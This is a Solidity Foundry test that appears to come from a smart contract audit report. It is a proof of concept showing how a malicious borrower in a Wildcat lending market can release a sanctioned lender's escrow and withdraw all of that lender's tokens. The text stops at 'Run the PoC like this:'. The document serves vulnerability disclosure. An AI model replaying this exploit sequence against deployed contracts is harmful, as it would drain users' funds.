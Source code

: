 ```solidity
function test_borrowerCanStealSanctionedLendersFunds() external {
  vm.label(borrower, "bob"); // Label borrower for better trace readability

  // This is Larry The Lender
  address larry = makeAddr("larry");

  // Larry deposists 10e18 into Bob's market
  _deposit(larry, 10e18);

  // Larry's been a bad guy and gets sanctioned
  sanctionsSentinel.sanction(larry);

  // Larry gets nuked by the borrower
  vm.prank(borrower);
  market.nukeFromOrbit(larry);

  // The vulnerable escrow in which Larry's funds get moved
  address vulnerableEscrow = sanctionsSentinel.getEscrowAddress(larry, borrower, address(market));
  vm.label(vulnerableEscrow, "vulnerableEscrow");

  // Ensure Larry's funds have been moved to his escrow
  assertEq(market.balanceOf(larry), 0);
  assertEq(market.balanceOf(vulnerableEscrow), 10e18);

  // Malicious borrower is able to release the escrow due to the vulnerability
  vm.prank(borrower);
  WildcatSanctionsEscrow(vulnerableEscrow).releaseEscrow();

  // Malicious borrower has all of Larry's tokens
  assertEq(market.balanceOf(borrower), 10e18);

  // The borrower authorizes himself as a lender in the market
  _authorizeLender(borrower);

  // Queue withdrawal of all funds
  vm.prank(borrower);
  market.queueWithdrawal(10e18);

  // Fast-forward to when the batch duration expires
  fastForward(parameters.withdrawalBatchDuration);
  uint32 expiry = uint32(block.timestamp);

  // Execute the withdrawal
  market.executeWithdrawal(borrower, expiry);

  // Assert the borrower has drained all of Larry's assets
  assertEq(asset.balanceOf(borrower), 10e18);
}
```

Run the PoC like this:
